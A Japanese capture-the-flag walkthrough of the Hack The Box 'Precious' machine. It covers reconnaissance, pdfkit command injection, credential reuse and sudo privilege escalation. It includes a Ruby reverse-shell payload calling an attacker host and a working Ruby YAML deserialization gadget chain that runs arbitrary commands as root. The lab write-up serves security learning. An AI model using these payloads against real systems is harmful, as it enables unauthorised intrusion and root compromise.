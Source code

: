 ## Precious
IP: 10.10.11.189  
Port: 22/tcp, 80/tcp  
Domain: precious.htb  
Sub Domain: no  
  
nmapでポートスキャンを行う。  
![](images/Precious/1.png)  

80番ポートが開いているので、ブラウザでアクセスを行う。  
![](images/Precious/2.png)  

Locationヘッダーに`http://precious.htb/`がセットされており、  
リダイレクトされるが、DNSに`precious.htb`に対応するIPアドレスが設定されていないため、  
アクセスができない。  
名前解決を行う順番は`/etc/nsswitch.conf`の`hosts:`に定義されており、  
私の環境では、ファイル(/etc/hosts) -> mdns4 -> dnsという順番である。  
`/etc/hosts`にドメイン`precious.htb`に対応するIPアドレス`10.10.11.189`を設定する。  
再度、ブラウザからアクセスしてみる。

![](images/Precious/3.png)

入力フォームに適当な値を入れSubmitをすると、  
urlパラメータに乗せられてサーバーにurlを届けるみたい。  

自分の環境でWebサーバーを建てて、urlに自分のipアドレスを入れてみる。  
![](images/Precious/4.png)

返答が返ってきたと同時に、PDfファイルがダウンロードされた。  
ファイルを開く前に私は`string`コマンドや`file`コマンドを実行して、  
中身の構造を調べる習慣があるので実行する。  
![](images/Precious/5.png)

気になる記述がある。  
==pdfkit v0.8.6==  
ソフト名やバージョンの記述を見つけたら、既知の脆弱性が存在しないかを調べる。  
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795  
pdfkitパッケージのバージョンが`<0.8.7.2 `の場合に、URLが適切にサイタイジングされていないため、  
コマンドインジェクションの脆弱性が存在するらしい。  

Exploit Codeを探すと、以下のような形で行うらしい。  
```
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait... 
```
なので、以下のような形でurlパラメータにセットしてリバースシェルを狙う。  
```
%20` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("ip",port))'`
```
`ruby`ユーザーでリバースシェルを獲得できた。  
![](images/Precious/7.png)

安定なシェルを行うため、`ssh-keygen`を実行し、秘密鍵を自分の環境にコピーしSSH接続を行う。  
探索していくと、rubyユーザーのホームディレクトリの隠しディレクトリに`config`というファイルを見つける。  
この`config`ファイルというのは、Rubyのバージョン管理ツールである`bundler`で使用される設定ファイルである。  
中身を見ると、`user:password`の形で保存されており、この資格情報を使いhenryユーザーにログインできそうである。  
![](images/Precious/8.png)  


資格情報を使い、henryユーザーにログインを行う。  
ここで`user.txt`のuserフラグをゲットすることができる。  

続いて権限昇格を行うため、  
SUIDの設定不備を利用したものや、cronを利用したものなどたくさん存在する。  
詳しくはこちら(https://book.hacktricks.xyz/linux-hardening/privilege-escalation)  

そして、`sudo -l`の結果でroot権限で特定のコマンドを実行することが可能な設定がされているのを見つける。  
`sudo`コマンドの`-l`オプションというのは、sudoを実行するユーザーに許可されているコマンドを一覧表示するというものだ。  
`/opt/update_dependencies.rb`のRubyファイルを見てみると、  
```
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
と記述されており、中でも`YAML.load(File.read("dependencies.yml"))`のコードに不備が存在する。  
YAMLによるDeserializationの欠陥があり、以下のPayloadでコマンドを実行することができる。  
参考(https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)
```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: <command>
         method_id: :resolve
```

`YAML.load(File.read("dependencies.yml"))`というように、`dependencies.yml`ファイルを読み込むので、  
先程のPayloadの`git_set`に`cat /root/root.txt > /home/henry/output`というようにしてrootフラグをゲットした。  

